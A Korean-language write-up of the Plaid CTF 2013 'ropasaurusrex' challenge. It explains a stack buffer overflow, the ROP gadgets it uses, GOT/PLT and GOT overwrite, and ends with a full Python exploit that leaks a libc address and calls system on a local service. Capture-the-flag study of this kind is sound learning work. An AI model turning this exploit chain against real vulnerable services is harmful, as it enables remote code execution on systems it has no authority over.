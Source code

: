 # Ropasaurusrex
### Plaid CTF 2013
***Ropasaurusrex는 p CTF 2013의 문제입니다.***

ropasaurusrex를 처음 실행해 보면, 입력을 받은뒤  WIN이라는 글자와 함께 종료되는 모습을 볼 수 있습니다.

### Main
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Main.PNG)

### Vuln Funtion
![Alt text](https://github.com/Funniest/System-study/blob/master/ropasaurusrex/img/Funciotn.PNG)

sub esp, 98 -> 0x98 만큼 버퍼 생성

lea eax, [ebp-buf] -> 0x88 부터 입력 버퍼

취약한 함수 = call sub_80483F4

buf의 크기는 총 0x88(136) + SFP = (140)인데, 입력은 0x100(256)만큼 받습니다.

└ read(fd, buf, 0x100)

즉 버퍼오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. read_plt, read_got
2. write_plt, write_got
3. pppr
4. dynamic_addr -> bss영역을 사용하지 않는 이유는 영역이 작아서 입니다.
5. read - system libc offset
  └ Offset을 구하는 이유는 주소가 가변적으로 바뀌어도 offset은 고정이기 때문에 이 offset에 base주소를 더해 주면, 
    원래 system주소가 나오기 때문입니다.
```
read - system을 하여 system의 offset을 구한다음 read_got의 addr를 얻어 구한 system offset을 빼면 원래의 system 주소가 나오게 됩니다.

가젯들을 구할 때에는 objdump -d, -h와 gdb를 이용하여 구하였습니다.

read - system을 하여 offset을 구할 때에는 gdb로 아무데나 b를 걸고 달린후 p system, p read를 이용하여 구해주시면 됩니다.

익스플로잇 순서는
```
1. 익스플로잇에 필요한 가젯들을 구합니다.
2. 구한 가젯들을 조합하여 페이로드를 작성합니다.
      └ write_plt에 read_got를 인자로 주어 로드된 read 주소를 얻어옵니다.
      └ 그 후 read_plt를 이용하여 dynamic섹션에 명령어를 받습니다.
      └ got overwrite를 이용하여 read_got를 구한 system주소를 씁니다.
      └ read_plt(system)에 dynamic섹션 영역을 인자로 주어 실행합니다.
```
###Got Overwrite?
Got Overwrite란 read, write함수 등 함수들은 plt주소와 got주소를 가지고 있는데,

plt란 외부 프로시저를 연결해주는 테이블 이라고 나와있습니다.

plt를 이용하여 다른 라이브러리에 있는 프로시저를 호출하여 사용하는 것이 가능합니다.

got는 plt가 참조하는 테이블이고, 프로시저들의 주소가 들어있습니다.

이런 plt와 got를 사용하는 이유는 프로그램을 조금 더 가볍게 하기 위해서 입니다.

원래 옛날에 코드를 컴파일 하면, 라이브러리가 프로그램 안에 들어가서 무거워 졌었는데, 지금은 이렇게 링크를 하여 외부 파일에서 함수를 불러와 프로그램이 가벼워 집니다.

이렇게 프로그램안에 모든 함수 주소를 넣는것을 Static link, 외부 파일에서 필요한 함수만 불러오도록 하는 것을 dynamic link라고 합니다.

간단하게 dynamic link 링크 방식은 plt -> got -> 실제 함수주소를 호출하게 됩니다.

[참고] https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/

그럼 plt overwrite는 왜 없냐면 plt는 read only속성이기 때문에 overwrite하는게 불가능하기 때문입니다.

###소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
#!/usr/bin/python

from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

s = socket(AF_INET, SOCK_STREAM)
s.connect(('127.0.0.1', 6666))

read_plt = 0x804832C
read_got = 0x804961C
write_plt = 0x804830C
write_got = 0x8049614
pppr = 0x80484b6

dynamic_addr = 0x8049530
read_system_libc = 0x9abe0

cmd = 'ls -al'

print "[+]Exploit!"
payload = ''
payload += 'A' * 140
#Get target write libc address
payload += p(write_plt)
payload += p(pppr)
payload += p(0x1) #stdout
payload += p(read_got)
payload += p(0x4)
#write in dynamic section
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0) #stdin
payload += p(dynamic_addr)
payload += p(len(cmd))
#got overwrite
payload += p(read_plt)
payload += p(pppr)
payload += p(0x0)
payload += p(read_got)
payload += p(0x4)
#system call
payload += p(read_plt)
payload += p(0x41414141)
payload += p(dynamic_addr)

s.send(payload)

#libc distance calc
read_libc = up(s.recv(4))
system_addr = read_libc - read_system_libc
print "System addr [*]" + hex(system_addr)

s.send(cmd)
s.send(p(system_addr))

print s.recv(1024)
print "Finish!"

```

